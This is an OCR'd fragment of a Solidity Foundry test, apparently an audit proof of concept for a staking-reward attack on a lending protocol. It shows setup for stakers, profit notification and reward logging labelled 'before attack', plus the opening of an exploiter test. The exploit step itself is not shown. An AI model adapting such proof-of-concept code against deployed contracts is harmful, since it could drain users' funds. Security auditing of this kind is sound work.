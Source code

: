 ```solidity
        vm.stopPrank();

        // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
        uint borrowTime = block.timestamp;
        gUSDC.mint(ALICE, 100e18);

    	vm.warp(block.timestamp + 150 days);
        uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
        vm.prank(governor);
        profitManagerUSDC.setProfitSharingConfig(
            0.05e18, // surplusBufferSplit
            0.9e18, // creditSplit
            0.05e18, // guildSplit
            0, // otherSplit
            address(0) // otherRecipient
        );

        gUSDC.mint(address(profitManagerUSDC), interest);
        profitManagerUSDC.notifyPnL(termUSDC, int256(interest));

        sgmUSDC.getRewards(STAKER1, termUSDC);
        sgmUSDC.getRewards(STAKER2, termUSDC);
        sgmUSDC.getRewards(STAKER3, termUSDC);
        console.log("------------------------------BEFORE ATTACK------------------------------");
        console.log("Staker1 credit reward:                                  ", gUSDC.balanceOf(address(STAKER1)));
        console.log("Staker1 guild reward:                                  ", guild.balanceOf(address(STAKER1)));
        console.log("Staker2 credit reward:                                 ", gUSDC.balanceOf(address(STAKER2)));
        console.log("Staker2 guild reward:                                  ", guild.balanceOf(address(STAKER2)));
        console.log("Staker3 credit reward:                                  ", gUSDC.balanceOf(address(STAKER3)));
        console.log("Staker3 guild reward:                                  ", guild.balanceOf(address(STAKER3)));
        console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
    }

    function testGuildHoldersRewardsAfterEXPLOITER() public {
        gUSDC.mint(STAKER1, 200e18);
        gUSDC.mint(STAKER2, 800e18);
        gUSDC.mint(STAKER3, 600e18);

        vm.startPrank(STAKER1);
        gUSDC.approve(address(sgmUSDC), 200e18);
        sgmUSDC.stake(termUSDC, 200e18);
        vm.stopPrank();

        vm.startPrank(STAKER2);
        gUSDC.approve(address(sgmUSDC), 800e18);
        sgmUSDC.stake(termUSDC, 800e18);
        vm.stopPrank();

        vm.startPrank(STAKER3);
        gUSDC.approve(address(sgmUSDC), 600e18);
        sgmUSDC.stake(termUSDC, 600e18);
        vm.stopPrank();

        // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
```
